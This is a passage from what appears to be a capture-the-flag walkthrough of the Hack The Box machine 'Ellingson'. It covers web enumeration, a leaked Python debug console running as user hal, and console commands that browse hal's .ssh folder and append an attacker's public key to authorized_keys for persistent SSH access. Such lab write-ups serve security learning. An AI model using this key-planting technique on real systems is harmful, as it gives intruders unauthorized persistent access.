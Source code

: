 | http-title: Ellingson Mineral Corp
|_Requested resource was http://10.10.10.139/index
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

<p>Nothing out of the usual so let's take a look at the web service and see what we can find. Looks like a company page. Before we start poking around manually we make sure to kick off burp and get a better idea of the layout.</p>

<p align="center">
<img src="{{ '/assets/htb-ellingson/burp.PNG' | relative_url }}">
</p>

<p>After taking a look at the various pages, there was some interesting information on the various articles. There was some discussion about previous security incidents and some common password warnings.</p>

<p align="center">
<img src="{{ '/assets/htb-ellingson/article1.PNG' | relative_url }}">
</p>

<p align="center">
<img src="{{ '/assets/htb-ellingson/article3.PNG' | relative_url }}">
</p>

<p>It seems we're loading the various articles by just going to the reference page number url. Let's see what happens when we try to go to a page that doesn't exist like "4".</p>

<p align="center">
<img src="{{ '/assets/htb-ellingson/article4.PNG' | relative_url }}">
</p>

<p>Ok some error messages and leakage indicating that at least python is installed on the machine. While scrolling through the error messages I accidentally moved my over to the side and noticed a terminal icon pop up. I thought that seemed quite weird, so looking further into it I quickly realized this was actually a python console, running as the user hal!</p>

<p align="center">
<img src="{{ '/assets/htb-ellingson/hal.PNG' | relative_url }}">
</p>

<p>With some initial poking around I realized that there were four users (or at least for homedirectories). Since we were running as hal we had access to his homedir. Unfortunately, no user flag present there, however we did have access to his <code>.ssh</code> folder and subsequently <code>authorized_keys</code>. Let's add our own in there and see if we can get access properly through ssh.</p>

{% highlight shell %}
>>> os.chdir("/home/hal")
>>> os.getcwd()
'/home/hal'
>>> dirlist = glob.glob('.*')
>>> print(dirlist)
['.profile', '.bashrc', '.ssh', '.local', '.gnupg', '.bash_logout', '.viminfo', '.cache']
>>> os.chdir(".ssh")
>>> dirlist = glob.glob('*')
>>> print(dirlist)
['id_rsa', 'authorized_keys', 'id_rsa.pub']
>>>open('authorized_keys', 'a+').write('\nssh-rsa AAAAB3N...XBuOItl root@kali\n')
{% endhighlight %}
